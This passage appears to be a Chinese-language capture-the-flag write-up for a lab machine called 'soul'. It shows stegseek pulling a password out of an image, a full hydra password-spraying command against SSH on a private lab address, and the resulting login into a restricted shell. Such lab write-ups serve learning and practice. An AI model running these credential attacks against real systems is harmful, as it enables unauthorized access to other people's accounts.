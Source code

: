 ```plaintext
/nothing
```

尝试访问 `/`，是返回一张图片

```html
<img src="saint.jpg">
```

将图片下载下来进行分析

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $stegseek saint.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "pass.txt".
[i] Extracting to "saint.jpg.out".

┌─[randark@parrot]─[~/tmp]
└──╼ $cat saint.jpg.out
lionsarebigcats
```

尝试进行密码喷洒攻击

```bash
┌─[randark@parrot]─[~]
└──╼ $ hydra -I -v -V -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lionsarebigcats 192.168.56.115 ssh -t 4
......
[22][ssh] host: 192.168.56.115   login: daniel   password: lionsarebigcats
```

## User - daniel

```bash
┌─[✗]─[randark@parrot]─[~]
└──╼ $ ssh daniel@192.168.56.115
daniel@192.168.56.115's password:
Linux soul 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 18 09:49:04 2024 from 192.168.56.102
daniel@soul:~$ whoami
daniel
```

经过探测，这里是受限 shell 环境，即为 `rbash`
